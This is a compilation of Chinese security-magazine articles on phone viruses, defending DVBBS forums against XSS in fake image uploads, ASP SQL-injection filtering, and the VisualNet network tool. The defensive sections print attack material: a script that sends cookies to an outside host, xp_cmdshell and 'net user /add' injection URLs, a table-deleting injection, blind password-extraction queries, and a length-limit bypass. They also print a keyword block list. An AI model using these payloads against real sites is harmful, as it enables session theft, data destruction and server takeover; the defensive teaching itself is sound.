1. 接听来电先看清楚，如有乱码，关闭乱码电话。当对方的电话打过来时，如果屏幕上显示的是奇异的符号，请不要接听来电——“造毒之心不可有，防毒之心不可无”。

2. 尽量少从网上下载信息。WAP服务给我们带来了非常大的方便，但随着3G的来临，手机类似一部小型电脑，可以浏览网页，发送电子邮件，换LOGO，下载你喜爱的铃声和软件，就存在被病毒透过电脑感染的机会。因为黑客制造的病毒肯定会将手机当成互联网上的另一台电脑来进行攻击。破坏者只要找出缺口，传出一个带毒的信息，以Assembly Programming改变系统的机内码（machine code），将指令藏在记忆体中，然后在开启其他手机的电话本，大肆传播病毒，在一定时间内发作，破坏手机的开机系统。为了保存“爱机”仍然灵通，失去一点方便也是再所难免的。

3. 留心短信息。短信息的收发越来越成为移动通信的一个重要方式，然而短信息也是感染手机病毒的一个重要途径。手机用户一旦接到带有病毒的短信息，阅读后就会出现手机键盘被锁，甚至破坏手机IC卡等。使用手机收短信或上网时要留意一些不明信件，对有乱码出现的信息千万不要打开，要马上删除掉。据报载，最近出现了一种称为“移动黑客”的手机病毒，用户只要一查看中毒手机中的短信息，手机就会自动关闭。该病毒是利用了手机芯片程序中的BUG漏洞或缺陷，用短信的形式把病毒代码发送给对方，从而造成破坏。

4. 主动出击——对手机进行病毒查杀。目前应对手机病毒的主要技术措施有两种：其一是通过无线网站对手机进行杀毒；其二是通过手机的IC接口或红外传输口进行杀毒。大多数手机病毒在短期内还不会具备对手机硬件的破坏能力，因此用户在收到带毒的短信后也大可不必惊慌，只要删除该条带毒短信即可。

5. 就地取材——稍微高级点的手机自身就有屏蔽外部电话和短消息功能，我们可以在手机上对恶意电话进行设置，对恶意短消息源进行屏蔽，这样可以间接地解决手机炸弹的攻击。

> ### 总结
> 随着时间的推移，手机发展越来越快，手机病毒也将也会越来越猖獗，防不胜防。只有尽量把手机和网络远离才可以更好地防范病毒的传染。赶快防起来哦！

---

脚本小子：在收录的《再谈“跨站脚本攻击”——入侵某知名安全站点实例》一文中，我们随着作者的讲述看到了清晰的入侵思路，虽然所用到的并不是什么新出现的漏洞，无非就是跨站攻击、Cookie欺骗等脚本入侵技术的结合，这些脚本入侵知识已经为大家所熟悉，但是，有多少人真正熟悉这些技巧并灵活运用到实际操作中呢？简单地说，就是伪造图片进行跨站脚本攻击。有矛，就有盾。我们如何防御伪造图片跨站脚本攻击？况且攻击的目标就是现在仍广泛应用的动网DVBBS 6.0.0？来，让我们看看如何——

- 适合对象：网页程序员
- 前置知识：ASP, Javascript, HTML

## 防御伪造图片跨站脚本攻击

文/图 · 无敌最寂寞[HBU 小组]

入侵方法大家都看到了，其实很简单，只不过是一种变相的跨站攻击而已，不过我试过很多的站点，发现这样的攻击确实很有效的。

防御方法其实也是很简单的。大家在看那篇攻击的时候会发现，攻击成功的两个关键条件是：

1. 对方允许上传图片。
2. 对方 upload 文件里没有检查图片文件（如 gif、jpg 等）的真实性。

既然知道了攻击的要害，那么防御起来就很简单了。最简单的防御方法就是不允许上传图片，不过这样是治标不治本，而且会连累那些正常上传图片的朋友。那么我们就从第二个要害下手吧。编写一段ASP代码来实现对上传的图片文件的真实性的检测。

上面的代码其实很简单，大家可以用记事本分别打开一个真实的 gif 图片看看，开头是不是有一个 GIF。当然，如果入侵者足够狡猾，也可以通过伪造图片头部信息来达到欺骗效果。不过，我们这个代码也做了充分的考虑，如果一旦通过取前几个字节无法判断的话，那么就看下一部分代码：

```vbscript
else
  strBuff = GetBytes(flnm, 0, -1) ' 如果以上简单判断不行的话，就将图片全部读出
  lngSize = len(strBuff)
  flgFound = 0
  strTarget = chr(255) & chr(216) & chr(255)
  flgFound = instr(strBuff, strTarget)
  if flgFound = 0 then
    exit function
  end if
  strImageType = "JPG" '是否是jpg格式的图片
  lngPos = flgFound + 2
  ExitLoop = false
  do while ExitLoop = False and lngPos < lngSize
    do while asc(mid(strBuff, lngPos, 1)) = 255 and lngPos < lngSize
      lngPos = lngPos + 1
    loop
    if asc(mid(strBuff, lngPos, 1)) < 192 or asc(mid(strBuff, lngPos, 1)) > 195 then
      lngMarkerSize = lngConvert2(mid(strBuff, lngPos + 1, 2))
      lngPos = lngPos + lngMarkerSize + 1
    else
      ExitLoop = True
    end if
  loop
```

通过上面的这段代码，读出整个上传文件，然后来判断是否是真实的图片。

其实这是我们从编程的角度来考虑的，需要统筹地考虑所有的可能情况！其实我们可以实际点想想，有谁上传的图片的大小会小于 150 个字节呢？往往一般的图片小则也是10几K，而我们上传的那些伪造的图片只有短短的几行代码，总体算下来最多1百多个字节吧？再一个，我们在构建伪造图片时，一些特定的代码都必须是存在的。比如：

```html
<script language=javascript>window.alert(document.cookie)</script>
或者
<script language=javascript>window.open('http://cnasu.net/info.asp?msg='+document.cookie)</script>
```

通过对这些代码的分析我们可以发现，由于需要 cookie 来实现跨站攻击，那么在入侵代码里都或多或少地出现“cookie”这个关键词。以此为判断条件，通过读取上传图片的全部信息，然后判断这些信息是否包含“cookie”这个词来判断是否是攻击代码。实现代码如下：

```asp
<%
dim fl, fs, fm, flnm, sEvent
flnm=server.mappath("./pic/upload/temp.gif") '映射上传图片的路径
Set fs = CreateObject("Scripting.FileSystemObject")
set fm=fs.OpenTextFile(flnm, 1, FALSE, FALSE) '以文本格式打开文件
sEvent=fm.ReadAll
sEvent=UCase(sEvent) '将读取到的信息转换成大写

If Len(sEvent) < 150 Then '当读取的字节数小于 150 个字节的时候
    response.write "哪有这么小的图片哦?? <BR>"
else
    response.write "正常，放行~~<BR>" '大于 150 个字节，进行下一个环节的判断
end if

If Instr(sEvent, ".COOKIE") = 0 Then '判断读取的信息中是否包含 "cookie" 关键词
    response.write "好漂亮的图片哦"
else
    response.write "怎么?? 想黑我?? " '如果包含 "cookie"
end if

fm.close
Set fs = Nothing
%>
```

通过上面的分析，我们就可以利用各种判断的关键点来达到真假图片的识别。其实防御要比进攻难得多，这只是粗略地提供一个思路。做好了这些，这类伪造图片的跨站攻击方式基本上就可以杜绝了。最后我要谢谢我的好DD小金，没有他的帮助这篇稿子就很难完成了！

## 脚本攻击防范

### 策略完全篇（下）

**脚本小子**：2004年第一期的《黑客防线》上刊登了本文的上半部分，非常多喜欢脚本的朋友看了此文后给我们发来了信件，说这样的文章非常好，小编们看了很感动，读者对我们的支持才是我们最大的欣慰！谢谢大家了！

本期刊登此文的后一部分，重点在当前非常流行的 ASP 漏洞方面，绝对经典！

- **适合读者**：脚本编写人员、脚本安全研究人员
- **前置知识**：脚本编写知识
- **文** / 凤清扬

## ASP 防范 SQL Injection 漏洞攻击

面对时下非常火热的 SQL Injection 的强大“攻势”，我们到底该过滤哪些？

- `'`：数据库字段判别封闭
- `--`：某些数据库注释标志
- `#`：某些数据库注释标志
- `"`：可能导致程序出错
- `\`：跨越目录
- `3221143836`：unicode 编码的特征字符
- `$`：可能用于变量标注
- `/`：和 `\` 一样
- `NULL`：小心“空”录入的危险，可能导致数据库或系统处理报错，利用报错构造溢出
- `空格和 '` 一起：构造 SQL Injection
- `? = &`：如果存在二次参数传递，可能改写 QueryString。

### 1. 从最一般的 SQL Injection 漏洞攻击来看

用户名和密码上的过滤问题，如提交：用户名为 `' or ''='`，用户密码为 `' or ''='`。从程序出发，我们完全可以得出，数据库在执行以下操作：

```sql
Sql=" SELECT * FROM lUsers WHERE Username=' ' or ' ' = ' ' and Password =' ' or ' ' = ' ' "
```

这样一来，SQL 服务器将返回 lUsers 表格中的所有记录，而 ASP 脚本将会因此而误认为攻击者的输入符合 lUsers 表格中的第一条记录，从而允许攻击者以该用户的名义登入网站。对此类注入的防范似乎简单的很，利用以下程序就可以实现：

```asp
strUsername = Replace(Request.Form("Username"), "'", "''")
strPassword = Replace(Request.Form("Password"), "'", "''")
```

### 2. 监控 Request 对象

杜绝 SQL 注入式攻击的第一步就是采用各种安全手段监控来自 ASP Request 对象（Request、Request.QueryString、Request.Form..Request.Cookies 和 Request.ServerVariables）的用户输入，以确保 SQL 指令的可靠性。具体的安全手段根据你的 DBMS 而异。

SQL 注入式攻击可能引起的危害取决于该网站的软件环境和配置。当 Web 服务器以操作员 (dbo) 的身份访问数据库时，利用 SQL 注入式攻击就可能删除所有表格、创建新表格等等。当服务器以超级用户 (sa) 的身份访问数据库时，利用 SQL 注入式攻击就可能控制整个 SQL 服务器；在某些配置下攻击者甚至可以自行创建用户账号以完全操纵数据库所在的 Windows 服务器。如下所示：

```http
http://127.0.0.1/forum/showuser.asp?id=999';
declare @a sysname set @a='xp_'+'cmdshell' exec @a 'dir c:\'--&aid=9

http://127.0.0.1/forum/showuser.asp?id=999';
declare @a sysname set @a='xp_'+'_cm'+'dshell' exec @a 'dir c:\'--&aid=9
```

甚至可以执行像 `net user fqy fqy /add` 这样的指令。当然，这就需要你当前的运行身份必须是 sa，或者你攻击的只是几台虚拟主机，我劝你还是就此打住。

对于一些整机使用的站点来说，防止通过 80 端口攻击而直接拿到整机管理权限，这一点就变得至关重要了。对 `xp_cmdshell` 的过滤就成为首要，很多站点的程序都是用 GET 或者是 GET 与 POST 混合来提交数据的，对于此，我们给出一种防止 GET 进行 SQL 注入的程序：

```asp
fqys = Request.ServerVariables("QUERY_STRING")
dim nothis(18)
nothis(0)="net user"
nothis(1)="xp_cmdshell"
nothis(2)="/add"
nothis(3)="exec%20master.dbo.xp_cmdshell"
nothis(4)="net localgroup administrators"
nothis(5)="select"
nothis(6)="count"
nothis(7)="asc"
nothis(8)="char"
nothis(9)="mid"
nothis(10)="'"
nothis(11)=":"
nothis(12)=""""
nothis(13)="insert"
nothis(14)="delete"
nothis(15)="drop"
nothis(16)="truncate"
nothis(17)="from"
nothis(18)="%"

errc=false
for i= 0 to ubound(nothis)
    if instr(fqys, nothis(i))<>0 then
        errc=true
    end if
next

if errc then
    response.write "<script language=""javascript"">"
    response.write "parent.alert('很抱歉！你正在试图攻击本服务器或者想取得本服务器最高管理权！将直接转向首页..');"
    response.write "self.location.href='default.asp';"
    response.write "</script>"
    response.end
end if
```

> 声明：以上的程序只是对 GET 方式提交的数据进行的过滤，千万不要盲目套用。

像其他一些来自 ASP Request 对象的用户输入的攻击方法，大致都集中在脚本期望的输入变量是数字变量 (ID) 上，当然我们不能只看数字变量，比如：

```http
http://127.0.0.1/systembbs/showtopic.asp?tid=99&name=abc' and left(userpassword,1)='a
http://127.0.0.1/systembbs/addtopic.asp?tid=99&name=abc' and userpassword='or' '1'='1'
```

另外，如何单一地防止类似的注入错误？

```http
http://127.0.0.1/systembbs/addtopic.asp?tid=99' ;delete forum_forum;--&page=33
```

防范程序如下：

```asp
Action1=trim(Request.QueryString())
if left(action1,7)<>"action=" then '限定 QueryString 必须为 action=
    error(err01) '错误处理
else
    action=Request.QueryString("action") '取得 QueryString 的值
end if

select case action '对 QueryString 进行处理
    case "add"
        '.....
    case "delete"
        '.....
    case else '如果 QueryString 没有这个值则进行错误处理
        error(err02)
end select
```

出现这样的攻击，使我们的站长们不得不又再次头痛，这里我可以给出大家一个最好解决的办法，一般来说，用户长度字符数不会超过 15 个字符，大都为 14 字符。那么，我们可以从长度出发来进行过滤，如下所示：

```asp
Name=replace(name, "'", "")
If len(name)>16 then
    Response.write "你要做什么?"
    Response.end
End if
```

为什么我们这里过滤了单引号，怎么还要再次取一个长度限制呢？不多说了，看看 4ngel 的文章“绕过’限制继续注入”你就会明白了。

继续回到我们的主题。脚本期望的输入变量是数字变量 (ID)，怎样进行注入防范？方法太多了，最直接的就是判断是否是数字整型，还有一些比较个性的验证办法，代码如下所示：

1. **判断数字是否是整型**
   `p_lngID = CLng(Request("ID"))`

2. **取字长**
   这一点我相信一般的数据长度不会大于 8 位，所以：
   ```asp
   If len(ID)>8 then
       response.write "bad request"
       response.end
   end if
   ```

3. **数据库校验**
   这是一种比较稳妥的办法，就是再进行一次数据库的查询，如果数据库表内没有相同的值则返回错误。
   ```asp
   sql = "SELECT NAME FROM Category where ID="&ID
   set temp=conn.Execute(SQL)
   if temp.bof or temp.eof then
       response.Redirect("index.asp")
   else
       cat_name=temp("name")
   end if
   set temp=nothing
   ```
   上面的是数据 ID 的检测，下面则是正式的查询：
   ```asp
   sql = "SELECT ID, T_ID, NAME FROM Category where ID="&ID&" ORDER BY xh asc"
   rs.open sql,conn,1,1
   ```

4. **常用的数据过滤脚本**
   ```asp
   id=replace(id, "'", "")
   If len(request("id"))>8 then 
       response.write "<script language=""javascript"">"
       response.write "parent.alert('老大，你说吧，你想干什么?..');"
       response.write "history.back();"
       response.write "</script>"
       response.end
   else
       If request("id")<>"" then 
           If IsNumeric(request("id"))=False then 
               response.write "<script language=""javascript"">"
               response.write "parent.alert('错误的数据编号类型\n\n 请返回校验');"
               response.write "history.back();"
               response.write "</script>"
               response.end
           end if
       end if
   end if
   ```

由于我个人的编程习惯，我喜欢将所有的数据校验程序全部保留到整站的公用程序中，比如 `conn.asp`，只需要写一次就可以修复全站的问题。

说到这里，我提一点关于攻击的问题，就是跑用户密码或者是用户名，一般常用的如下：

```http
......./show.asp?id=1 and 0<>(select count(*) from admin where id=3 and left(username,1)='a')
```

这样去一个一个尝试，当然我们不能在这里提什么 Perl 程序去跑密码，程序是别人写，要自己知道原理。这里我只是想给个比较方便的办法，就是取 ASC 码范围。这个要比单独跑要快很多，不论是字母、数字、汉字、特殊字符，它们总会有对应的 ASC 码，用以下办法实现：

```http
......./show.asp?id=1 and 0<>(select count(*) from admin where id=3 and asc(right(left(username,3),1)) between 1 and 10000)
```

剩下的就随你了，一般的从 97 到 122 就可以啦，字母嘛，很快。呵呵，有人想用 `mid` 函数当然也是不错，`asc(mid(username,2,1)) between 1 and 10000` 也成。

## 防范远程注入攻击

这类攻击在以前应该是比较常见的攻击方式，比如 POST 攻击，攻击者可以随便改变要提交的数据值以达到攻击目的。又如 Cookies 的伪造，这一点更值得引起程序编写者或站长的注意，不要使用 Cookies 来作为用户验证的方式，否则你和把钥匙留给贼是同一个道理。比如下面的代码：

```asp
If trim(Request.cookies("uname"))="fqy" and Request.cookies("upwd")="fqy#e3i5.com" then
    '........more........
End if
```

我想各位站长或者是喜好写程序的朋友千万别出这类错误，真的是不可饶恕。伪造 Cookies 都多少年了，你还用这样的就不能怪别人跑你的密码。涉及到用户密码或者是用户登录时，你最好使用 Session，它才是最安全的。如果要使用 Cookies，就在你的 Cookies 上多加一个信息：SessionID，它的随机值是 64 位的，要猜解它，不可能。比如下面的代码：

```asp
if not (rs.BOF or rs.eof) then
    login="true"
    Session("username" & SessionID) = Username
    Session("password" & SessionID) = Password
    'Response.cookies("username")= Username
    'Response.cookies("Password")= Password
```

下面我们来谈谈如何防范远程注入攻击。一般的攻击都是将表单提交文件拖到本地，将 `FORM ACTION="chk.asp"` 指向你服务器中处理数据的文件即可。如果你全部的数据过滤都在表单页上，那么恭喜你，你已经被脚本攻击了。

怎么才能制止这样的远程攻击？好办，请看如下代码：

```asp
<%
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
    response.write "<br><br><center><table border=1 cellpadding=20 bordercolor=black bgcolor=#EEEEEE width=450>"
    response.write "<tr><td style=font:9pt Verdana>"
    response.write "你提交的路径有误，禁止从站点外部提交数据!请不要乱改参数！"
    response.write "</td></tr></table></center>"
    response.end
end if
%>
```

个人感觉上面的代码过滤不是很好，有一些外部提交竟然还能堂堂正正地进来，于是再写一个：

```asp
' 这个是过滤效果很好，建议使用..
if instr(request.servervariables("http_referer"), "http://" & request.servervariables("host") ) < 1 then
    response.write " 处理 URL 时服务器上出错。<br>如果你是在用任何手段攻击服务器，那你应该庆幸，你的所有操作已经被服务器记录，我们会第一时间通知公安局与国家安全部门来调查你的 IP。"
    response.end
end if
```

本以为这样就万事大吉了，在表格页上加一些限制，比如 `maxlength` 等等，但天公就是那么不作美，你越怕什么他越来什么。别忘了，攻击者可以突破 SQL 注入攻击时输入框长度的限制写一个 SOCKET 程序改变 `HTTP_REFERER`。

网上发表了这样一种通过注册表扩展菜单绕过长度限制的方法：

```ini
------------------len.reg------------------
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\扩展(&E)]
@="C:\Documents and Settings\Administrator\桌面\len.htm"
"contexts"=dword:00000004
```

```html
-------------------len.htm------------------
<script language=vbs>
set srcevent = external.menuarguments.event
set doc=external.menuarguments.document
set ele=doc.elementfrompoint( srcevent.clientx, srcevent.clienty )
if ele.type ="text" or ele.type="password" then
    ele.maxlength=200
    ele.size=200
end if
</script>
```

用法：先把 `len.reg` 导入注册表（注意文件路径），然后把 `len.htm` 拷到注册表中指定的地方。打开网页，光标放在要改变长度的输入框上点右键，单击“扩展”即可搞定！同样的，也就可以对付那些限制输入内容的脚本了。

怎么办？我们的限制被绕过了，所有的努力都白费了？不。让我们继续回到脚本字符的过滤吧，他们所进行的注入无非就是进行脚本攻击。我们把所有的精力全都用到 ACTION 以后的页面吧，在 `chk.asp` 页中，我们将非法的字符全部过滤掉。我们只在前面虚晃一枪，叫他们去改注册表吧，当他们改完才会发现，它们所做的都是那么的徒劳。

## 小结

如何更好地达到防范 SQL Injection 的攻击？这里我个人推荐几个办法：

1. **修改关键字段**：免费程序不要真的就免费用，既然你可以共享源码，那么攻击者一样可以分析代码。如果有能力的站长最好还是更改一下数据库表名、字段名，只修改关键的 admin、username 和 password 就可以了。
2. **强壮的密码**：管理员密码应至少 10 位的数字字母组合。而且现在大多数站点程序都会使用 MD5 来加密用户密码，加上你密码的强壮性，那样你站点的安全性就大大提高了。即使出现了 SQL Injection 漏洞，攻击者也不可能马上拿下你的站点。

本文到此就算结束了，如果各位读者有什么更好的建议或者是问题可以与我共同讨论学习。

> 近期修正了极限论坛 V6000+ 的整套程序，发现 SQL Injection 好多处，脚本攻击 N 处，细节问题处理 N 处。我下载了极限论坛的所有版本都看了一下，所有的版本都存在问题，包括最新版的。请使用极限论坛的站长注意一下，及时修复论坛程序上的过滤 BUG，如果有什么问题可以和我联系，我们也将在近期刊登这样的文章，请大家关注。

## 网络管理之“清晰可见”

文/图 Chinadata

蝴蝶：网络管理是一个网管的基本责任，无论是广域网还是局域网都是一样。今天我们向大家推荐一款由国人编制的网管软件，这款软件是网管软件中比较实用的一款，能切实减轻很多网络管理员纷繁的工作量。以后我们也会陆续地推出这样的优秀工具，希望大家喜欢！同时，如果你有什么好的程序值得推荐或者点播，请直接给我来信：email: liuliu@hacker.com.cn!

- 适合对象：脚本编写人员
- 前置知识：网络管理相关知识

我们公司里有152个员工，计算机有80台，我的网络管理员工作就是不停地查找问题、分析问题、解决问题，我那个累啊，简直是语言无法表达！（看黑防的网管们一定有很深的体会！ T_T）一个偶然的机会，一个朋友介绍我使用 VisualNet，从此我“汗水和泪水”的工作终于一去不复返，现在我可以轻松搞定计算机的内部管理，分出了更多的时间来做网络的安全维护工作，不废话了，下面和大家一起来分享 VisualNet 的强大功能。

VisualNet 不需要安装客户端，只需在管理者计算机上安装，即可对整个网络的情况了如指掌。在安装了 VisualNet 之后，先进行必要的系统配置（图 1）：


图 1

设备监视配置：主要是配置设备轮询的间隔以及后台线程池的线程数；

超时设置：主要是配置 ICMP、SNMP、SOCKET 项的超时参数以及设备接口过高的报警阀值。

监视方式与优化：

(1) 状态监视：禁用表示取消所有设备的状态监视，全部监视表示所有设备的状态，自定义是根据设备自己的监视配置项来决定的。

(2) 优化策略：不使用定时监视，普通是根据特性对其监视时间上进行优化，高级则是优化系统更大，推荐使用普通。

(3) 监视协议：监视协议是指通过何种方式知道设备的状态，目前支持 ICMP、TCP、ICMP+TCP，更多的方式正在添加中。当设备以及网络普遍支持 ICMP 时推荐使用 ICMP+TCP。如果多数不支持 TCP，推荐使用 TCP。

(4) 端口监视：“禁用”表示所有设备的端口状态都不监视，“全部”表示所有设备的端口状态都监视，“自定义”表示根据设备自身信息中的监视配置项来决定。

(5) 接口监视：“禁用”表示所有设备的接口状态和流量都不监视，“全部”表示所有设备的接口状态和流量都监视，“自定义”表示根据设备自身信息中的监视配置项来决定。剩下的工作就是对数据库进行简单的配置，这里就不浪费宝贵的版面了（要不然同仁们会有意见的，呵呵！）。

## VisualNet 强大功能展示

1. VisualNet 可以对整个网段或者以一个路由设备连接整个网络，并可构建整个网络的拓扑视图。这里你不必知道你计算机所在的网络的连接情况，也不用自己来做网络的拓扑视图，VisualNet 已经为你提供了灵活的自动发现功能，自动捕获网络的连接情况，自动绘制网络拓扑视图。VisualNet 通过设备特征以及 SNMP 等多种信息准确地识别各个设备的操作系统的类型。如果你是小型的网络，它会为你发现网络内部的所有连接情况，然后添加进行管理的设备、主机、路由等（图 2）。


图 2

VisualNet 的设备路由拓扑视图直观地体现设备在互联网上经过的路由器，以及相互的联接情况，便于故障追踪以及状态监控和管理。该拓扑是以管理端为出发点观察各个设备的路由连接情况（图 3）。

“设备互联拓扑视图”与“路由拓扑”不同的是设备互联拓扑表现的是拓扑路由器、交换机以及其他所有网络设备的接口分布以及它们所对应的所有设备的连接关系。VisualNet 中引入了灵活的设备类型管理机制，使得设备可以分类管理、监视和呈现，随着各种新设备的使用，用户还可以在系统的设备库中添加自定义的新设备，包括呈现视图图标等。


图 3

VisualNet 中通过维护一个用户可以扩充的端口类型类来实现对网络设备端口服务的监测，完全可以根据用户的实际情况修改和扩充缺省的端口库，实现定制化的端口服务监测。同时，通过服务确认机制实现对端口服务类型的确认（图 4）。


图 4

2. VisualNet 除自身具有强大的网络管理功能外还嵌入自带大量的网络测试分析工具，同时可以平滑方便地嵌入其他网管系统或用户自己开发的工具集，使你在网络管理过程中得心应手。

